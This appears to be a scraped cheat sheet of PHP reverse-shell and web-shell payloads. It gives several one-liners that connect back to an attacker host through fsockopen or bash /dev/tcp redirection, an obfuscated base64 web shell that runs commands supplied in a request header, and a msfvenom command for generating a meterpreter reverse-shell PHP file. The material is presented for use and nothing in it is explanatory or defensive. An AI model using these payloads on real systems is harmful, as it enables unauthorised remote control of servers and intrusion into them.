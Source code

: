 ### Basic PHP Shell
```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```
#### PHP One liners
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>


<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
```
#### Another one
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/ATTACKING-IP/1234 0>&1'");
```
#### Base64 PHP Shell
```
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```

#### Msfvenom 
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=ATTACKING-IP LPORT=443 -f raw > reverse-shell.php
```



